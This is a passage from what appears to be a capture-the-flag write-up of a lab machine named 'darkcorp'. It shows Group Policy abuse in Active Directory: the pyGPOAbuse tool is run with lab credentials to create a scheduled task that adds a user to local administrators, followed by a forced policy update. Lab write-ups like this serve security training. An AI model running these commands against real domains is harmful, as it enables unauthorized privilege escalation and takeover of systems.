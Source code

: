 ```bash
Get-GPO -All | Where-Object { $_.DisplayName -match "SecurityUpdates" }
```

![alt text](../assets/images/darkcorp35.png)

https://github.com/Hackndo/pyGPOAbuse

```bash
python3 pygpoabuse.py darkcorp.htb/'taylor.b.adm':'!QAZzaq1' -gpo-id "652CAE9A-4BB7-49F2-9E52-3361F33CE786" -command 'net localgroup administrators taylor.b.adm /add'
SUCCESS:root:ScheduledTask TASK_c4b3b100 created!
[+] ScheduledTask TASK_c4b3b100 created
```

and go back winrm and run

```bash
gpupdate /force
```

![alt text](../assets/images/darkcorp36.png)
